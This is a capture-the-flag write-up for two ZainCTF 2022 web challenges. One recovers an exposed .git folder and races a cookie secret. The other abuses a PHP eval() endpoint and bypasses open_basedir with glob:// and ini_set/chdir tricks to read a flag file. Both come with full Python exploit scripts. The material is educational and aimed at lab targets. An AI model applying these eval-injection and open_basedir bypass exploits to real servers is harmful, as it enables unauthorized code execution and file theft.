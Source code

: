 # ZainCTF 2022 - Web 
## 1- Sonic go Brr 

#### about : 
- Type: Web 
- Level: easy 
- Website: http://instance-web.cybertalentslabs.com/index.php
- points: 50
</br>

So the website disclosed a .git folder , with this [tool](https://github.com/arthaud/git-dumper) i got the backend files , in the source code i found that the check was if the secret (bas64 string) is equal to the value of parameter Q , and that needs to go fast enough to be submitted 
</br>

i wrote this code then 
```python
import requests
import base64 as bs
import urllib.parse as url

def get() : 
    headers = {
        'Host': 'wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-GPC': '1',
    }

    response = requests.get('http://wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com/index.php', headers=headers, verify=False)
    return  response.cookies["PHPSESSID"], response.cookies["secret"]

def post(session , secret) : 
    cookies = {
        'PHPSESSID': session,
        'secret': secret,
    }

    headers = {
        'Host': 'wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-GPC': '1',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '12',
    }

    data  ="Q=" + bs.b64decode(url.unquote(secret)).decode('utf-8')
    

    response = requests.post('http://wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com/index.php', headers=headers, cookies=cookies, data=data, verify=False)
    print(response.text)
if __name__ == "__main__" : 
    sess , cookie = get()
    post(sess  ,cookie)
```

## 2- blobber 

#### about : 
- Type: Web 
- Level: meduim 
- Website: http://52.59.229.252:1234/index.php
- points: 100

the website shows the source code : 

```php
<html>
<!--
<img src="uploads/bg.png"/>
-->
<?php

if (!isset($_GET['e']))
{
highlight_file(__FILE__);
}

eval(stripslashes($_GET['e']));

if (isset($_GET['file'])){
 $dir= new DirectoryIterator($_GET['file']);
 foreach ($dir as $found) echo filemtime($found)." ";
 exit;

}

?>
</html>
```

now easy eval , easy rce right , nope let's try the payload 
```php
ini_set('display_errors', 1);
chdir('../');
```

it gives : 

> <b>Warning</b>:  chdir(): open_basedir restriction in effect. File(../) is not within the allowed path(s): (/var/www/html) in <b>/var/www/html/index.php(12) : eval()'d code(3) : eval()'d code</b> on line <b>3</b><br />

now thats a lockdown , ok it says somethign base_dir prevents us from getting the parent files , i tried many thing , but if we look in disabled_functions we wil find that we can't upload nor execute system commands , pretty bad.

disabled function : 
>system, pcntl_signal_dispatch,  posix_uname,  chgrp,  posix_setsid, pcntl_wifcontinued, readlink, proc_open, pcntl_exec, pcntl_wstopsig, imap_open, tempnam, passthru,  chown, pcntl_wifexited, show_source,  popen, pcntl_async_signals, exec, posix_mkfifo, pcntl_wexitstatus, touch,  posix_mkfifo, copy, pcntl_sigprocmask, file, pcntl_sigwaitinfo, fopen, pcntl_wifsignaled, define_syslog_variables, tmpfile, pcntl_exec, pcntl_waitpid, imagecolormatch, popen,  pg_lo_import, readfile, ftp_ssl_connect,  dbmopen, apache_setenv, link, pcntl_fork, pcntl_signal, parse_ini_file,  proc_terminate, curl_multi_exec, pcntl_setpriority, rename, file_put_contents, pcntl_getpriority, pcntl_signal_get_handler, curl_exec, pcntl_strerror,  proc_close,  proc_nice, pcntl_sigtimedwait,  posix_getpwuid, pcntl_get_last_error,  symlink,  pclose,  dbase_open,  posix_kill, pcntl_alarm, ftp_connect,  chmod, shell_exec, pcntl_wait,  posix_setpgid, pcntl_wtermsig, pcntl_wifstopped

i searched and found this [github](https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/README.md) repo , it was pretty handy , i tried and it worked : 

```php
$file_list = array();
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}\n";
}
```
> anaconda-post.log
> bin
> boot
> dev
> etc
> home
> lib
> lib64
> media
> mnt
> opt
> proc
> root
> run
> sbin
> srv
> sys
> t0t4lly_n0t_th3_r3al_fl4gG
> tmp
> usr
> var

we know it's in the t0t4lly_n0t_th3_r3al_fl4gG , we ned to get the file content : 

```php
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");
chdir("../");
chdir("../");
chdir("../");
var_dump(scandir('.'), file_get_contents('t0t4lly_n0t_th3_r3al_fl4gG'));
```

and we got the flag : **flag{n1c3_w0rk_ch41n1ng_wrappers_w1th_b4s3d1r}**

for the complete exploit : 

```python
import requests
import base64 as bs
#t0t4lly_n0t_th3_r3al_fl4gG

headers = {
    'Host': '52.59.229.252:1234',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Sec-GPC': '1',
    'Content-Length':'0',
    'Cache-Control': 'max-age=0',
    'X-Forwarded-For': '127.0.0.1',
}
code = """
ini_set('display_errors', 1);
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");
chdir("../");
chdir("../");
chdir("../");
var_dump(scandir('.'), file_get_contents('t0t4lly_n0t_th3_r3al_fl4gG'));
"""

command  = f"""
$code = base64_decode("{(bs.b64encode(code.encode("utf-8"))).decode("utf-8")}");
eval($code);
"""
params = (
    ('e', command),
)

response = requests.get('http://52.59.229.252:1234/index.php', headers=headers, params=params, verify=False)
print(response.text)
```